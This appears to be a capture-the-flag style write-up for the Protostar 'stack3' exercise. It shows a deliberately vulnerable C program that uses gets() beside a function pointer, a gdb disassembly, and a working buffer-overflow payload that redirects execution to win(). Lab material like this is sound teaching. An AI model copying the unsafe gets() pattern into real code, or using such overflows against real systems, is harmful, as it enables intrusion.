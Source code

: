 ```
TL;DR -> `python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3`
```

# Stack3

URL: https://exploit.education/protostar/stack-three/
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

- both gdb and objdump is your friend you determining where the win() function lies in memory.
  This level is at /opt/protostar/bin/stack3

Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

# Writeup

It is similar to stack1, the only difference is that, we have to redirect the code execution to other (`win`) function.

we can easily get the address of `win` function in GDB using `x win`

```
user@protostar:/opt/protostar/bin$ gdb ./stack3
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
End of assembler dump.
(gdb) x win
0x8048424 <win>:        0x83e58955
```

So the address of the win function is `0x8048424`.

Payload: `python -c "print 'A'*64 + '\x24\x84\x04\x08'"`

---

One liner solution:
`python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3`
